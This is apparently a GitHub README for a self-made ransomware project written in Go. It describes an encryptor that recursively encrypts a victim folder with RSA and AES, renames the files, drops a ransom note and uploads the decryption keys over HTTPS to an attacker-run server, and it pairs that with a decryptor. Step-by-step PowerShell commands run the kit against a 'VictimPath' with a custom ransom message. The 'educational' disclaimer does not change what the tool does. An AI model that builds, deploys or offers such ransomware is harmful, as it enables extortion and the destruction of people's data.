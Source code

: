 # 🖥️ Home-made Ransomware💡

## 🚀 A Bold Attempt 

This was conceived as an experiment, I'm trying to code it without breaking my laptop. 😅 
ALL ETHICAL, ALL EDUCATIONAL.

## ✨ Features

- Hybrid encryption: RSA + AES
- Key separation: server, client, session keys
- HTTPS upload of encrypted keys to remote server
- Self-signed certificate generation for local HTTPS
- Modular structure with clean binaries



## 📖 Components

### `encryptor`
- Encrypts files recursively in a target folder.
- Renames them with `.jjj` extension.
- Generates:
  - `file.keys` (AES keys per file)
  - `master.key` (encrypted client private key)
  - `server.key` (RSA key used to decrypt the client key)
  - `warning.txt` with ransom note
- Uploads `file.keys` and `master.key` to the server via HTTPS.

### `server`
- Listens on `https://<SERVER_HOST>:<SERVER_PORT>/upload`
- Accepts `file.keys` and `master.key`
- Saves them under `data/YYYYMMDD-HHMMSS/`
- Automatically generates a self-signed cert if needed

### `decryptor`
- Recovers `.jjj` files using `server.key`, `master.key`, and `file.keys`
- Restores the original filenames and extensions


## 🚀 Getting Started

<b> Note </b> : You can use the `.env.example` file or use Linux envs as shown in the following comands!

### Option 1: Using compiled binaries (recommended)

1. Open PowerShell and run the server:

```powershell
$env:SERVER_HOST = "localhost"
$env:SERVER_PORT = "8443"
releases/server.exe
```

2. In separate terminal, run the encryptor:
```powershell
$env:SERVER_HOST = "localhost"
$env:SERVER_PORT = "8443"
$env:RANSOM_MESSAGE = "Your files have been encrypted. Contact us."
releases/encryptor.exe FilePathToEncrypt
```

3. To decrypt later:
```powershell
releases/decryptor.exe EncryptedFilePath
```
### Option 2: Using go run (for development)
1. Run the server:
```powershell
$env:SERVER_HOST = "localhost"
$env:SERVER_PORT = "8443"
go run cmd/server/server.go
```

2. Run the encryptor:
```powershell
$env:SERVER_HOST = "localhost"
$env:SERVER_PORT = "8443"
$env:RANSOM_MESSAGE = "Your files have been encrypted. Contact us."
go run cmd/agent/encryptor.go VictimPath
```

3. Decrypt if needed:
```powershell
go run cmd/agent/decryptor.go EncryptedFiles
```

## 🚫 Legal Notice

This software is intended **strictly for educational and ethical testing purposes**.  
It must not be used in real-world systems or against machines you do not own or have explicit permission to test.

---

<p align="center">
  <img src="https://github.com/user-attachments/assets/39f38f68-d36c-4d91-bebe-836b129d1244" alt="imagen">
</p>
